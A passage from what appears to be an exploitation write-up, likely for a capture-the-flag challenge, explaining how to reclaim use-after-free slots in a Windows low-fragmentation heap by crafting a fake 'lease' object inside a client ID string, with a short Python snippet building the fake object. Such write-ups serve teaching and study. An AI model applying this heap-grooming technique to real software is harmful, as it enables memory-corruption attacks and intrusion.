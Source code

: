   <img src="writeup/exp4.png" style="width: 80%; border-radius: 0%;" />
</p>

Now, let's create a lease whose `clientId` string is a fake lease. The fake lease will take up the size of a lease. Therefore, the legitimate lease and the fake lease will both end up in our LFH userblock and will take up the two free chunks in the LFH -> the UAF slots.

```python
RECLAIM_ID = 0x1337
string = p64(RECLAIM_ID)
string += b"C" * 16
string += p64(0x8)
string += p64(0xf)    # Small fake inlined string because capacity <= 15
id = create(string)
```

After this snippet is run, there are no free slots anymore in the LFH userblocks; one of the two free ones has been used for the legitimate lease, the other one for the fake lease.

<p align="middle" float="left">